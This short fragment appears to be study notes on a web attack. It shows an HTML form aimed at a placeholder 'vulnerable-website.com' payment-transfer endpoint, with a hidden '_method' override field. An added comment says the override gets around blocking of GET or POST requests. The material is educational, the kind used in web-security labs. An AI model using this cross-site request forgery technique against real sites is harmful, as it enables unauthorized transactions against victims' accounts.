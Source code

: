 `<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">`

`<input type="hidden" name="_method" value="GET">`

change the type AFTER the server recieves the packet incase get or post is blocked